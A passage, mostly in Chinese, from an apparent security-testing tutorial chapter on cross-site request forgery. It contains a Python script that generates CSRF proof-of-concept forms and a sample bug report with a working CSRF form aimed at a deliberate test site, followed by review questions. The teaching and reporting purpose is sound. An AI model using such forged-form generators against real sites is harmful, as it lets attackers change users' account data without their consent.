    form_tag = content.new_tag("form", action=action, method=method, enctype=encoding_type)
    html_tag.append(form_tag)

    for field in fields:
        label_tag = content.new_tag('label')
        label_tag.string = field['label']
        field_tag = content.new_tag("input", type=field['type'], value=field['value'])
        field_tag['name'] = field['name']
        form_tag.append(label_tag)
        form_tag.append(field_tag)

    submit_tag = content.new_tag("input", type="submit", value=action)
    form_tag.append(submit_tag)

    return content.prettify()

if __name__ == "__main__":
    method=sys.argv[1]
    encoding_type=sys.argv[2]
    action=sys.argv[3]
    fields = ast.literal_eval(sys.argv[4])
    print(generate_poc(method, encoding_type, action, fields))
```

在清理完脚本并成功证明漏洞后，我们现在可以编写报告了。

# 收集报告信息

让我们来看看写报告所需的信息。

# 类别

这是一种 CSRF `POST` 方法攻击。

# 时间戳

对于我们的时间戳，我们可以使用我们第一次提交 CSRF PoC 时的大致时间。

# URL

在我们的案例中，易受攻击的 URL 仅仅是 `POST` 操作的目标：

```
http://webscantest.com/csrf/csrfpost.php
```

# 负载

对于我们恶搞过的 PoC 代码片段，我们所做的恶行就是迫使用户选择豆汤绿作为他们的最喜欢的颜色。这就是我们将作为负载值包括进去的内容。

# 方法论

我们的 PoC 是基于从拦截的表单 HTTP 请求中获取的信息，程序化生成的。

# 重现步骤

对于我们的重现步骤，我们可以简单地提供我们的 CSRF PoC，并列出提交伪造表单请求的非常简单的手动步骤。

# 攻击场景

虽然我们检测到漏洞的表单看起来并不那么关键（个人最喜欢的颜色并不是机密等级的信息），但通过不必要的应用程序状态变化来更改个人账户信息是一个严重的缺陷。

# 最终报告

让我们使用这些信息来格式化我们的提交：

```
CATEGORY: CSRF POST-based attack

TIME: 2018-07-22 17:27 (17:27) UTC

URL: http://webscantest.com/csrf/csrfpost.php

PAYLOAD: Peasoup

METHODOLOGY: Vulnerability detected with generated CSRF PoC included in reproduction instructions.

INSTRUCTIONS TO REPRODUCE:

1\. Open the following CSRF PoC into a browser either locally or through a hosted environment:

<html>
 <form action="http://webscantest.com/csrf/csrfpost.php" enctype="application/x-www-form-urlencoded" method="POST">
  <label>
   color
  </label>
  <input name="dummy-property" type="text" value=""/>
  <input name="property" type="hidden" value="Peasoup">
  <input type="submit" value="http://webscantest.com/csrf/csrfpost.php"/>
 </form>
</html>

2\. Submit the form contained in the CSRF PoC.

ATTACK SCENARIO:
In the case of this POST-based CSRF attack, the vulnerability gives the attacker the opportunity to change a piece of the user's account information if they unwittingly submit the attacker's form. Giving a user a Peasoup-colored car instead of a flashy Cyan one would be a breach of the user's trust and a threat to the company's online ordering system and general bottom line.
```

# 总结

在本章中，我们介绍了作为一种漏洞的 **跨站请求伪造** (**CSRF**)，创建并验证了一个 CSRF PoC，程序化地创建了 CSRF PoC，并成功地为漏洞报告提交编写了文档。希望你也能理解为什么这个漏洞会如此严重，并掌握一些可以用于未来影响报告的攻击场景。

# 问题

1.  什么是 CSRF？

1.  对于发现 CSRF 漏洞的恶意行为者，可能的攻击场景是什么？

1.  CSRF PoC 的典型结构是什么？

1.  如何使用 CSRF PoC 来验证漏洞？

1.  使用 BeautifulSoup 生成 HTML 相对于直接的字符串操作有什么优势？

1.  我们在端到端示例中使用了哪种类型的 CSRF 攻击？

1.  恶意攻击者会使用什么样的 CSRF 标记？它与我们的 PoC 有什么不同？又有哪些相似之处？

# 进一步阅读

你可以在以下链接中找到更多我们在本章中讨论的相关主题：

+   **其他 CSRF 测试漏洞**：[`webscantest.com/csrf/`](http://webscantest.com/csrf/)
